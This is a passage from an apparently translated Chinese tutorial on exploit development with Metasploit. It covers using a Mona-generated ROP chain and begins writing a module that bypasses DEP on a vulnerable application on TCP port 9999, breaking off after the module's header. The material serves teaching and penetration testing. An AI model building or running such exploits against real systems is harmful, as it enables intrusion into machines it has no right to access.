 让我们看看 Mona 脚本创建的 ROP 链，如下所示：

![](img/80399eaa-788b-46d3-9749-d46e0614de54.png)

我们在 Metasploit 的`rop_chains.txt`文件中有一个完整的`create_rop_chain`函数。我们只需要将这个函数复制到我们的应用中。

# 为 DEP 旁路编写 Metasploit 漏洞模块

在本节中，我们将为利用堆栈溢出漏洞的同一个易受攻击的应用编写 DEP 绕过漏洞攻击，该漏洞攻击在启用 DEP 时失败。应用在 TCP 端口`9999`上运行。因此，让我们快速构建一个模块，并尝试在同一应用上绕过 DEP：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'                 => 'DEP Bypass Exploit', 
      'Description'    => %q{ 
         DEP Bypass Using ROP Chains Example Module 
      }, 
      'Platform'             => 'win', 
      'Author'         => 
        [ 
          'Nipun Jaswal' 
        ], 
      'Payload' => 
      { 
```